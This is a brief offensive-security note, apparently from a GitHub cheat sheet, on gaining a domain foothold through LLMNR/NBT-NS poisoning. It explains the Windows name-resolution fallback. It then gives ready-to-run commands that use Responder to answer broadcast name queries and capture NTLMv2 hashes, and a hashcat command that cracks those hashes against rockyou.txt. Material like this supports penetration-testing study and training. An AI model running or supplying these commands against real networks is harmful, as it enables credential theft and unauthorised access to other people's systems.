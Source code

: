 # LLMNR/NBT-NS Poisoning-Linux

which in this cycle we seek to foothold on the domain

when windows try to communicate with machine using DNS and failed, it start to use another ways

* LLMNR(UDP port 5355)
* NBT-NS(UDP 137)

which these protocols send a broadcast to all devices searching about machine call `ex: printer01`

in this case we use Tool call `responder` which respond as a fake machine to dump credential

```bash
sudo responder -I eth0 -wrf

sudo responder -I ens224 
```

**Crack NTLM Hash**

```bash
hashcat -m 5600 forend_ntlmv2 rockyou.txt
```
